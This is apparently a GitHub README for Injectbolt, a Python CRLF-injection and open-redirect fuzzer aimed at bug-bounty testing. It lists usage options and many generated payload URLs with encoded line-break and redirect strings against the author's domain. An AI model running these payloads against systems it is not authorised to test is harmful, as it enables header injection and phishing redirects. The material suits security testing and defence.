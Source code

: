 # Injectbolt

Simple python tool that goes through a list of URLs trying CRLF and open redirect payloads.


```
  _____       _           _   _           _ _   
 |_   _|     (_)         | | | |         | | |  
   | |  _ __  _  ___  ___| |_| |__   ___ | | |_ 
   | | | '_ \| |/ _ \/ __| __| '_ \ / _ \| | __|
  _| |_| | | | |  __/ (__| |_| |_) | (_) | | |_ 
 |_____|_| |_| |\___|\___|\__|_.__/ \___/|_|\__|
            _/ |                                
           |__/                                 

```          

usage: Injectbolt [-h] [-f FILE] [-u URL] [-r] [-w WORKERS] [-t TIMEOUT]
                [-d DELAY] [-c] [-op]

CRLF and open redirect fuzzer.

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing URLs
  -u URL, --url URL     Single URL to test
  -r, --no-request      Only build attack list, do not perform any requests
  -w WORKERS, --workers WORKERS
                        Amount of asyncio workers, default is 10
  -t TIMEOUT, --timeout TIMEOUT
                        HTTP request timeout, default is 6 seconds
  -d DELAY, --delay DELAY
                        The delay between requests, default is 1 second
  -c, --crlf            Only perform crlf attacks
  -op, --openredirect   Only perform open redirect attacks
```

## Design

If we have the following URL:
```
https://dubell.io/?param1=value1&url=value2&param3=value3
```

**For CRLF attacks**, Injectbolt will inject every payload once into the value of one parameter, for every n parameters. For example, Injectbolt will create the following list with the URL above:
```
https://dubell.io/?param1=%%0a0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0d%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%23%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30%61bounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%3f%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%u000abounty:strike&url=value2&param3=value3

https://dubell.io/?param1=value1&url=%%0a0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0d%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%23%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30%61bounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%3f%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%u000abounty:strike&param3=value3

https://dubell.io/?param1=value1&url=value2&param3=%%0a0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0d%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%23%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30%61bounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%3f%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%u000abounty:strike
```

As you can see, every CRLF payload is injected in the first parameter's value. Once the loop is done, Injectbolt will inject every payload into the second parameter, and so on. Once all parameters have been injected, the list is complete.

If there are no query parameters, Injectbolt will simply append each payload to the URL, like so:
```
https://dubell.io/some/path/%%0a0abounty:strike
https://dubell.io/some/path/%0abounty:strike
https://dubell.io/some/path/%0d%0abounty:strike
https://dubell.io/some/path/%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%25%30%61bounty:strike
https://dubell.io/some/path/%25%30abounty:strike
https://dubell.io/some/path/%250abounty:strike
https://dubell.io/some/path/%25250abounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%u000abounty:strike
```

**When injecting open redirect payloads**, Injectbolt will only inject a payload if there exists a query/path parameter containing a typical redirect keyword, e.g. `url`. Injecting into the following URL `https://dubell.io/?param1=value1&url=dashboard&param3=value3`:
```
https://dubell.io/?param1=value1&url=$2f%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2f$2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io//param3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=////bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=///bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=//bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/\x08ountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/http://bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=bountystrike.ioparam3=value3
```
The URL contains the query parameter `url`, so Injectbolt will inject the payloads into that parameter.

An example when using path parameters. Original URL is `https://dubell.io/some/path/that/redirect/dashboard`:
```
https://dubell.io/some/path/that/redirect/$2f%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2f$2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io//
https://dubell.io/some/path/that/redirect/////bountystrike.io
https://dubell.io/some/path/that/redirect////bountystrike.io
https://dubell.io/some/path/that/redirect///bountystrike.io
https://dubell.io/some/path/that/redirect//\x08ountystrike.io
https://dubell.io/some/path/that/redirect//bountystrike.io
https://dubell.io/some/path/that/redirect//http://bountystrike.io
https://dubell.io/some/path/that/redirect/bountystrike.io
```

As before, if no query parameters or path parameters are found, Inject will simply append each payload to the URL:
```
https://dubell.io/$2f%2fbountystrike.io%2f%2f
https://dubell.io/%2f$2fbountystrike.io
https://dubell.io/%2fbountystrike.io%2f%2f
https://dubell.io/%2fbountystrike.io
https://dubell.io/%2fbountystrike.io//
https://dubell.io/////bountystrike.io
https://dubell.io////bountystrike.io
https://dubell.io///bountystrike.io
https://dubell.io//\\bountystrike.io
https://dubell.io//bountystrike.io
https://dubell.io//http://bountystrike.io
https://dubell.io/bountystrike.io
```

## Installation
```
pip3.7 install -r requirements.txt --user
```

## Contributing
Any feedback or ideas are welcome! Want to improve something? Create a pull request!

1. Fork it!
2. Create your feature branch: `git checkout -b my-new-feature`
3. Configure pre commit checks: `pre-commit install`
4. Commit your changes: `git commit -am 'Add some feature'`
5. Push to the branch: `git push origin my-new-feature`
6. Submit a pull request :D
